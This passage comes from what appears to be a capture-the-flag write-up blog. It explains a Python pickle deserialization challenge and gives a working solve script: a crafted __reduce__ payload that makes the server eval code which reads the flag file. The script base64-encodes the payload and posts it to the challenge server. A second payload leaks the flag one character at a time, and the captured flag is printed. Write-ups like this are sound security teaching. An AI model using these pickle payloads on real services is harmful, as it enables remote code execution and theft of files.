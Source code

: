 [Using pickle on user input is as secure as using eval](https://davidhamann.de/2020/04/05/exploiting-python-pickle/). However, I was not allowed to use spaces in the payload, so the task was a bit harder. The solve script below prints the flag, but I have to admit it was inspired [from this writeup](https://github.com/saw-your-packet/ctfs/blob/master/Unbreakable%20Romania%20Online%20%231/Write-ups.md#rundown):

{% highlight python %}
import _pickle as cPickle
import base64
import os
import string
import requests
import time

class Exploit(object):
	def __reduce__(self):
		return (eval, ('eval(open("flag","r").read())', ))

def sendPayload(p):
	newp = base64.urlsafe_b64encode(p).decode()
	headers = {'Content-Type': 'application/yakoo'}
	r = requests.post("http://35.246.180.101:30994/",headers=headers,data=newp)
	return r.text


payload_dec = cPickle.dumps(Exploit(), protocol=2)
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] + "}")
{% endhighlight %}

My solution involved exfiltrating the flag character by character by raising an eception if the characters don't match - like a blind SQL injection, but with pickle & python. To get an idea of how overcomplicated it was, here's my original `Exploit` class:

{% highlight python %}
class Exploit(object):
	def throw_err(e):
		raise Exception(e)

	def __reduce__(self):
		return (eval, ('(0)if(open("flag","r").read()[77]=="z")else(1/0)', ))
{% endhighlight %}

**Flag:** ctf{f94f7baf771dd04b5a9de97bceba8fc120395c04f10a26b90a4c35c96d48b0bb}

## the-code {#the-code}
{% highlight bash %}
Look, the code is there. Enjoy.

Flag format: ctf{sha256}

Goal: You receive the source code of a small web application and you have to find the vulnerability to exfiltrate the flag.

The challenge was created by Bit Sentinel.
{% endhighlight %}
